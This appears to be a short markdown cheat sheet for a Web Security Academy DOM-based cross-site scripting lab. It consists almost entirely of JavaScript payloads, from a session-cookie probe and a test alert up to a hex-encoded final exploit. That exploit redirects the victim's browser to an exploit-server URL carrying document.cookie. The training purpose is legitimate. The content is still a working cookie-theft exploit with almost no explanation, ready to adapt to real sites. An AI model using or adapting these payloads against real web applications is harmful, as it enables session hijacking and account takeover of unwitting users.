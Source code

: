 ## XSS-DOM-Procedure

## Check your session cookie:
```js
"-(window["document"]["location"]="/?"+window["document"]["cookie"])-"
```

## TEST Payload:
```js
burpdomxss","test":alert(window["document"]["cookie"])}//
```

## The Exploit before preparing:
```js
<script>
location='https://<CHANGE-HERE>.web-security-academy.net/?SearchTerm="-(window["document"]["location"]="https://exploit-<CHANGE-HERE>%2eexploit-server%2enet/?"+window["document"]["cookie"])-"';
</script>
```

## Before ENCODE the exploit by using BurpSuite Decoder:
```js
"-(window["document"]["location"]="https://exploit-0af4008003a936d2c1563c1001a30084%2eexploit-server%2enet/?"+window["document"]["cookie"])-"
```

## THE ACTUAL EXPLOIT:
```js
<script>
location='https://0a3200d2032c36d2c1163a22005f00df.web-security-academy.net/?SearchTerm=%22%2d%28%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%6c%6f%63%61%74%69%6f%6e%22%5d%3d%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%66%34%30%30%38%30%30%33%61%39%33%36%64%32%63%31%35%36%33%63%31%30%30%31%61%33%30%30%38%34%25%32%65%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%25%32%65%6e%65%74%2f%3f%22%2b%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%63%6f%6f%6b%69%65%22%5d%29%2d%22';
</script>
```
